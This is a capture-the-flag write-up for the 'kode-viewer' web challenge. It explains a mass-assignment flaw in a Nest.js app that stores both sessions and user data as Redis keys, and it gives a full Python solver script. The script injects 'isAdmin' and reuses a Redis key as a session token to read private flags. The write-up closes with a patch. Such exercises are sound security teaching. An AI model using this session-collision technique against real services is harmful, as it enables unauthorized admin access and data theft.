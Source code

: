```yaml
---
icon: globe
---
```


# kode-viewer

### Description

Elevate your kode-share experience with kode-viewer.

by vidner

***

### Analysis

We are given full source-code of a website built using Nest.js. From the `docker-compose.yml` we can infer that the database used for this challenge is Redis.

```yaml
services:
  kode-viewer:
    build:
      context: .
      args:
        - PASSWORD=root
    ports:
      - '10000:3000'
    depends_on:
      - redis
    environment:
      - REDIS_HOST=redis
      - REDIS_PORT=6379
  redis:
    image: public.ecr.aws/docker/library/redis:alpine
    volumes:
      - ./redis-data:/data
```

From the `kode.services.ts` file, we could see that the `create` function uses the whole `payload` argument and expands them when sending it to the Redis database. This is dangerous since we can add new keys outside of the `KodeDTO` type. The `payload` is not checked against the `KodeDTO` type since types are only a suggestion in TypeScript, rather than a strict rule.

```typescript
// snip
  async create(email: string, payload: KodeDTO) {
    payload.kind = payload.kind ? 'private' : 'public';
    const key = `kode-${email}-${payload.name}-${payload.lang}-${payload.kind}`;
    return this.kv.set(key, { email, ...payload }, 1200);
  }
// snip
```

On the `list` function, we can see that we could only see our own kode if we are not an admin. But if we are an admin, we can see every kode on the database. So we would probably want to be an admin to get the flag.

<pre class="language-typescript"><code class="lang-typescript"><strong> // snip
</strong><strong>   async list(user: Session) {
</strong>    const kodes = user.isAdmin
      ? await this.kv.find('kode-*')
      : await this.kv.find(`kode-${user.email}-*`);
    return this.parse(kodes);
  }
// snip
</code></pre>

### Solution

To somehow overwrite the user, we need to look at how the session is implemented. The session token is just a random UUIDv4 and no sanitization is applied to it.&#x20;

```typescript
// snip
    const sessionId = uuidv4();
    await this.kv.set(sessionId, user, 1800);
// snip
```

Therefore, we can use a kode ID as a session token, where that kode is injected with an `isAdmin` with a value of `True` . This exploit is possible because of Redis, where it does not have a concept of tables. This means that if different types of objects are using the same database, the key must be identifiable to that type and also checked rigorously to avoid collisions like what is happening in this case.

```python
r = requests.post(f"http://{ip}:{port}/kode",
                  data={
                     "name": "asdf", 
                     "lang": "python", 
                     "kode": "hello", 
                     "isAdmin": True
                  },
                  headers={"Cookie": f"session={session}"},
                  allow_redirects=False
)
```

Then, the new kode can be interpreted as a session token and we can get all the kode in the database. On the remote service, the kode containing the flag will start with `flag` as the name and will be set to private.

### Solver Script

```python
#!/usr/bin/env python3
import requests
import sys
import re

ip = sys.argv[1]
port = "10000"

EMAIL = "a@aa.com"
PASSWORD = "dasdnnsaldnsa"
PAYLOAD = "kode-a@aa.com-asdf-python-public"

r = requests.post(f"http://{ip}:{port}/auth/register", 
                  data={"email": EMAIL, "password": PASSWORD},
)

r = requests.post(f"http://{ip}:{port}/auth/login", 
                  data={"email": EMAIL, "password": PASSWORD},
                  allow_redirects=False
)

session = r.cookies["session"]
r = requests.post(f"http://{ip}:{port}/kode",
                  data={
                     "name": 
                     "asdf", 
                     "lang": "python", 
                     "kode": "hello", 
                     "isAdmin": True
                  },
                  headers={"Cookie": f"session={session}"},
                  allow_redirects=False
)

session = PAYLOAD
r = requests.get(
    f"http://{ip}:{port}/kode", 
    headers={"Cookie": f"session={session}"}
)

flags = r.text
flag_urls = re.findall(r"\".*flag_.*-private\"", flags)

for flag_url in flag_urls:
    flag_url = flag_url.replace("\"", "")
    r = requests.get(
        f"http://{ip}:{port}{flag_url}", 
        headers={"Cookie": f"session={session}"}
     )
    print(r.text, flush=True)
```

### Patch

Since the culprit is the `create` function, we can patch it to only insert the keys that is defined by `KodeDTO`.&#x20;

```typescript
// snip
  async create(email: string, payload: KodeDTO) {
    payload.kind = payload.kind ? 'private' : 'public';
    const key = `kode-${email}-${payload.name}-${payload.lang}-${payload.kind}`;
    return this.kv.set(key, { email, kind: payload.kind, name: payload.name, lang: payload.lang, kode: payload.kode }, 1200);
  }
// snip
```

But after the competition, we realized that there are other exploits other than ours. So the true patch is to not use Redis as your main database xD.

